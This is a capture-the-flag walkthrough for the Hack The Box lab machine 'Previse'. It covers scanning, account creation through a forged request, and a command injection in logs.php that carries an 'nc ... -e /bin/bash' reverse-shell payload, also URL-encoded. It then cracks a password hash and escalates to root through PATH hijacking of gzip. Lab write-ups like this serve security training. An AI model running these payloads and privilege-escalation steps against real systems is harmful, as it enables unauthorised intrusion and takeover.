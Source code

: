# Previse

- Target Machine: 10.10.11.104

## Enumeration

### nmap scan

```bash
# Nmap 7.92SVN scan initiated Thu Sep  9 10:33:26 2021 as: nmap -sC -sV -oN nmap/initial.log 10.10.11.104
Nmap scan report for 10.10.11.104
Host is up (0.049s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-title: Previse Login
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep  9 10:33:51 2021 -- 1 IP address (1 host up) scanned in 25.70 seconds
```

### gobuster scan

```bash
/index.php            (Status: 302) [Size: 2801] [--> login.php]
/login.php            (Status: 200) [Size: 2224]
/download.php         (Status: 302) [Size: 0] [--> login.php]
/config.php           (Status: 200) [Size: 0]
/footer.php           (Status: 200) [Size: 217]
/header.php           (Status: 200) [Size: 980]
/favicon.ico          (Status: 200) [Size: 15406]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/.htaccess            (Status: 403) [Size: 277]
/.                    (Status: 302) [Size: 2801] [--> login.php]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/status.php           (Status: 302) [Size: 2968] [--> login.php]
/.htpasswd            (Status: 403) [Size: 277]
/.htm                 (Status: 403) [Size: 277]
/.htpasswds           (Status: 403) [Size: 277]
/nav.php              (Status: 200) [Size: 1248]
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]
/files.php            (Status: 302) [Size: 4914] [--> login.php]
/.htgroup             (Status: 403) [Size: 277]
/wp-forum.phps        (Status: 403) [Size: 277]
/.htaccess.bak        (Status: 403) [Size: 277]
/.htuser              (Status: 403) [Size: 277]
/.ht                  (Status: 403) [Size: 277]
/.htc                 (Status: 403) [Size: 277]
/.htaccess.old        (Status: 403) [Size: 277]
/.htacess             (Status: 403) [Size: 277]
```

The `nav.php` page is freely accessible without logging in. This page contains a menu with some links that redirect to other pages where however logging in is necessary.

### Burpsuite analysis

Even thought we get redirected to `login.php` while checking these pages, we can use burpsuite __HTTP history__ to check the page contents, due to the page being loaded for a short amount of time before redirecting.

As we can see, we can easily check the contents of the `accounts.php` page using this method:

![Accounts contents](.img/acc1.png)

Scrolling to the contents, we reach a form with some POST data where we can create an account:

![Account creator](.img/acc2.png)

We can [copy this form](scripts/account_creator.html), forging our own POST request to the server, creating the account `testuser : testuser`
We can now login as testuser and access the `files.php` page, finding a link that lets us download a file named `sitebackup.zip`

In the file `config.php` we can find some credentials:

```php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

## Accessing the machine

By looking through the contents of the logs.php page, we can see an exec function being called including unfiltered POST data, meaning we can abuse this to inject our own command.

```php
/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;
```

Using Burpsuite, we can intercept the POST request sent to this page from the file_logs.php page and edit it with our URL encoded command to generate a reverse shell.
__ATTENTION__: first you must start a netcat listener on your machine

- PAYLOAD: ; nc {your_ip} 1234 -e /bin/bash

- URL ENCODED PAYLOAD: %3b%20%6e%63%20%31%30%2e%31%30%2e%31%34%2e%31%39%36%20%31%32%33%34%20%2d%65%20%2f%62%69%6e%2f%62%61%73%68

![Accounts contents](.img/inj.png)

Now we can upgrade our shell by running `/usr/bin/script -qc /bin/bash /dev/null`

### Accessing the MySQL database

Since we know the MySQL root user's password, we can access it by running `mysql -u root -p previse`

We can list all the user passwords by running the query `SELECT * FROM accounts`, finding m4lwhere's password: `$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.`

We can now use John the Ripper to crack this hash and find the password, which is: `ilovecody112235!`. We can now SSH into the machine as m4lwhere and get the user flag

## Priviledge Escalation

Using `sudo -l` we can see the command priviledges of the user m4lwhere.

```bash
m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere: 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh

m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

As we can see, the script access_backup.sh calls gzip using a relative path and not an absolute one, meaning we can create a fake gzip script which will be run instead of the intended one, spawning a root shell

```
m4lwhere@previse:~$ export PATH=/tmp:$PATH
 
m4lwhere@previse:~$ cd /tmp/

m4lwhere@previse:/tmp$ echo /bin/bash > gzip

m4lwhere@previse:/tmp$ chmod +x gzip 

m4lwhere@previse:/tmp$ sudo /opt/scripts/access_backup.sh

root@previse:/tmp# id
```

__ATTENTION__: since the output of gzip is being redirected to `/var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz`, we can't actually read what is going on the root shell, but we can still run stuff

```
root@previse:/tmp# cp /root/root.txt /tmp

root@previse:/tmp# chmod 777 root.txt 

root@previse:/tmp# exit
exit

root@previse:/tmp# exit
exit

m4lwhere@previse:/tmp$ cat root.txt 
```

__ATTENTION__: PLEASE remember to delete the copied root.txt file after getting the flag or else other users that are trying to solve the challenge will also be able to read it. PLEASE don't ruin other people's experience by being greedy. Thank you!